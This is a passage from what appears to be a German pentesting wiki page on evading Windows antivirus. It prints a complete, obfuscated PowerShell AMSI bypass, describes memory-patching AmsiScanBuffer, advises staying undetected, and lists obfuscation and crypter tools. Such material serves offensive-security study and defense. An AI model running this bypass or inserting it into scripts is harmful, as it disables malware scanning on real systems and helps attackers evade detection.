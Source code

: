 Hier ist ein modifizierter AMSI-Bypass, den ich aus diesem [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db) entnommen habe.
```powershell
Try{#Ams1 bypass technic nº 2
$Xdatabase = 'Utils';$Homedrive = 'si'
$ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
$DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
$fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
$CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
$Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
$SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
$Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
$Spotfix.SetValue($null,$true)
}Catch{Throw $_}
```
Keep in mind, dass dies wahrscheinlich markiert wird, sobald dieser Beitrag veröffentlicht wird, also solltest du keinen Code veröffentlichen, wenn dein Plan ist, unentdeckt zu bleiben.

**Memory Patching**

Diese Technik wurde ursprünglich von [@RastaMouse](https://twitter.com/_RastaMouse/) entdeckt und beinhaltet das Finden der Adresse für die Funktion "AmsiScanBuffer" in amsi.dll (verantwortlich für das Scannen der vom Benutzer bereitgestellten Eingaben) und das Überschreiben mit Anweisungen, um den Code für E\_INVALIDARG zurückzugeben. Auf diese Weise wird das Ergebnis des tatsächlichen Scans 0 zurückgeben, was als sauberes Ergebnis interpretiert wird.

{% hint style="info" %}
Bitte lies [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/) für eine detailliertere Erklärung.
{% endhint %}

Es gibt auch viele andere Techniken, die verwendet werden, um AMSI mit PowerShell zu umgehen. Schau dir [**diese Seite**](basic-powershell-for-pentesters/#amsi-bypass) und [dieses Repo](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell) an, um mehr darüber zu erfahren.

Oder dieses Skript, das über Memory Patching jede neue Powersh patcht.

## Obfuscation

Es gibt mehrere Tools, die verwendet werden können, um **C# Klartextcode zu obfuskieren**, **Metaprogrammierungsvorlagen** zu generieren, um Binärdateien zu kompilieren oder **kompilierte Binärdateien zu obfuskieren**, wie zum Beispiel:

* [**InvisibilityCloak**](https://github.com/h4wkst3r/InvisibilityCloak)**: C# Obfuscator**
* [**Obfuscator-LLVM**](https://github.com/obfuscator-llvm/obfuscator): Ziel dieses Projekts ist es, einen Open-Source-Fork der [LLVM](http://www.llvm.org/) Kompilierungs-Suite bereitzustellen, der erhöhte Software-Sicherheit durch [Code-Obfuskation](http://en.wikipedia.org/wiki/Obfuscation_\(software\)) und Manipulationssicherheit bietet.
* [**ADVobfuscator**](https://github.com/andrivet/ADVobfuscator): ADVobfuscator demonstriert, wie man die Sprache `C++11/14` verwendet, um zur Compile-Zeit obfuskierten Code zu generieren, ohne externe Tools zu verwenden und ohne den Compiler zu modifizieren.
* [**obfy**](https://github.com/fritzone/obfy): Fügt eine Schicht obfuskierten Operationen hinzu, die durch das C++-Template-Metaprogrammierungs-Framework generiert werden, was das Leben der Person, die die Anwendung knacken möchte, ein wenig schwieriger macht.
* [**Alcatraz**](https://github.com/weak1337/Alcatraz)**:** Alcatraz ist ein x64-Binär-Obfuscator, der in der Lage ist, verschiedene PE-Dateien zu obfuskieren, einschließlich: .exe, .dll, .sys
* [**metame**](https://github.com/a0rtega/metame): Metame ist eine einfache metamorphe Code-Engine für beliebige ausführbare Dateien.
* [**ropfuscator**](https://github.com/ropfuscator/ropfuscator): ROPfuscator ist ein feinkörniges Code-Obfuskations-Framework für LLVM-unterstützte Sprachen, das ROP (Return-Oriented Programming) verwendet. ROPfuscator obfuskiert ein Programm auf der Ebene des Assemblercodes, indem reguläre Anweisungen in ROP-Ketten umgewandelt werden, was unser natürliches Verständnis des normalen Kontrollflusses untergräbt.
* [**Nimcrypt**](https://github.com/icyguider/nimcrypt): Nimcrypt ist ein .NET PE Crypter, der in Nim geschrieben ist.